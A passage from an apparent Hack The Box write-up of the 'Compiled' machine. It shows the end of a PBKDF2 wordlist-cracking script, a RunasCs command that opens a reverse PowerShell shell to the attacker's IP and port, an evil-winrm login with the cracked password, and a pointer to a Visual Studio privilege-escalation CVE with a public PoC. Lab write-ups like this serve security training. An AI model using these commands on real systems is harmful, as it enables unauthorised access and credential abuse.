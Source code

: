 ```python
                print(f"Password found: {word}")
                return word  # Return the password if it matches
        print("Password not found in the wordlist.")
        return None  # Return None if no match is found

# Example of usage
hash_value = '97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16'
salt = '227d873cca89103cd83a976bdac52486'
iterations = 50000
key_length = 50  # The length of the derived key in bytes
wordlist_path = '/usr/share/wordlists/rockyou.txt'  # Path to the wordlist

# Call the function to start the cracking process
password = pbkdf2_decrypt(hash_value, salt, iterations, key_length, wordlist_path)
```

After running the script we find the password to be: `12345678`.

![Emily password found](/images/HTB-Compiled/emily_pwd.png)

We can use `RunasCs.exe` to obtain a shell as `Emily` with the command below.

```
.\runascs.exe Emily "12345678" powershell -r 10.10.14.231:5555
```

![Emily RunasCs shell](/images/HTB-Compiled/emily_rcs_shell.png)

It is also possible to login as `Emily` via `evil-winrm`, and the user flag is in `C:\Users\Emily\Desktop`.

```
evil-winrm -u "Emily" -p "12345678" -i compiled.htb
```

![Emily shell](/images/HTB-Compiled/emily_shell.png)

## Privilege Escalation

We run winPEAS again and find an entry related to Microsoft Visual Studio. 

```
File Permissions "C:\Users\All Users\Microsoft\VisualStudio\SetupWMI\MofCompiler.exe": Authenticated Users [WriteData/CreateFiles]
```

![MS Visual Studio winpeas](/images/HTB-Compiled/MVS_2019.png)

In `C:\Users\Emily\Documents` we also find a directory for `Visual Studio 2019`.

![VS Studio 2019](/images/HTB-Compiled/VS_Studio_2019.png)

Searching for `MofCompiler.exe cve` on Google, we find the [CVE-2024-20656](https://www.mdsec.co.uk/2024/01/cve-2024-20656-local-privilege-escalation-in-vsstandardcollectorservice150-service/) with a PoC [here](https://github.com/ruycr4ft/CVE-2024-20656/tree/main).
